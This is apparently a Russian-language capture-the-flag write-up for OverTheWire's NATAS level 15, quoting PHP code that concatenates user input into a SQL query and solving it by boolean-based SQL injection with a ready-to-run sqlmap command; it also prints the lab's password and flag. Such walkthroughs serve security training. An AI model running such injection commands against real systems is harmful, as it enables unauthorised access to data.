





# NATAS_15 WriteUp
:computer: Host: http://natas15.natas.labs.overthewire.org/  
:bust_in_silhouette: Usename: natas15  
:key: Password: TTkaI7AWG4iDERztBcEyKV7kRXH1EZRB

:triangular_flag_on_post: Flag: TRD7iZrd5gATjj9PkPEuaOlfEjHqj32V
 
- [NATAS\_15 WriteUp](#natas_15-writeup)
  - [Обзор веб-приложения](#обзор-веб-приложения)
  - [Решение](#решение)

## Обзор веб-приложения
<a name="Обзор_веб-приложения"></a> 
Веб-приложение выглядит следующим образом


Ввод слова **test** возвращает вот такую реакцию


Кнопка <kbd>**View sourcecode**</kbd> позволяет просмотреть исходный код страницы
```php
// HTML Code ...
<?php
/*
CREATE TABLE `users` (
  `username` varchar(64) DEFAULT NULL,
  `password` varchar(64) DEFAULT NULL
);
*/
if(array_key_exists("username", $_REQUEST)) {
    $link = mysqli_connect('localhost', 'natas15', '<censored>');
    mysqli_select_db($link, 'natas15');

    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    $res = mysqli_query($link, $query);
    if($res) {
    if(mysqli_num_rows($res) > 0) {
        echo "This user exists.<br>";
    } else {
        echo "This user doesn't exist.<br>";
    }
    } else {
        echo "Error in query.<br>";
    }

    mysqli_close($link);
} else {
?>

<form action="index.php" method="POST">
Username: <input name="username"><br>
<input type="submit" value="Check existence" />
</form>
<?php } ?>
// HTML Code ...
```

## Решение
<a name="Решение"></a>
В исходном коде видим как устроен запрос
```php
$query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
```

А так же видим каким образом результат выполнения этого запроса учитывается веб-приложением
```php
$res = mysqli_query($link, $query);
if(mysqli_num_rows($res) > 0) {
        echo "This user exists.<br>";
    } else {
        echo "This user doesn't exist.<br>";
    }
```

Здесь прям напрашивается boolean-based SQL инъекция

Пробуем вызвать каждое из этих двух состояний



После подтверждения наличия boolean-based SQL инъекции можно доверить брутфорс автоматике  
Ключ запуска **sqlmap** таков 
```bash
sqlmap -u http://natas15.natas.labs.overthewire.org/ --data="username=natas16" --auth-type Basic --auth-cred natas15:TTkaI7AWG4iDERztBcEyKV7kRXH1EZRB --technique=B --dbms mysql --level 5 --risk 3 --string "This user exists" --batch --threads 10
```



Полученный флаг: TRD7iZrd5gATjj9PkPEuaOlfEjHqj32V
